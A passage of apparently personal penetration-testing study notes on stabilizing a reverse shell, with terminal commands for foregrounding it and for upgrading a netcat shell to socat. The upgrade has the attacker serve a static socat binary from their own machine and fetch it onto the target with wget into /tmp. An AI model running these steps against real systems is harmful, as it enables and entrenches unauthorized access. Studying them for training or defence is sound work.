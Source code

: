    ​
   ​
4. Foreground
   
   >[!Tip] Chebra
   >```
   >stty raw -echo; fg
   >```
   
   ​
   This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
   ​
   ​
#### Socat (Mixed POV)

Uses an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to ==Linux targets==, as a Socat shell on Windows ==will be no more stable than a netcat shell==. Need three steps after jumping to Socat:

1. Download Compiled Binary (AM POV)
   
   >https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
   
   ​
   In the github page only click on ==Download== and put it in the same directory where you'll open the server. We are going to leave the name by default as ==socat==.
   ​
   ​
2. Open server (AM POV)
   
   >[!Tip] Chebra
   >```
   >sudo python3 -m http.server {any port}
   >```
   
   ​
   Remember to run this command while being in the ==same directory== as the Compiled Binary that you just downloaded in the previous step.
   ​
   ​
3. Get file (TM POV)
   
   >[!Tip] Chebra
   >```
   >wget {Atacking Machine IP}/socat -O /tmp/socat
   >```
   
   ​
   This command is going to take the file named ==socat== (remember that we leave this name by default in the first step) and its putting it with the same name in the ==tmp directory==.
   ​
   ​
4. Next
   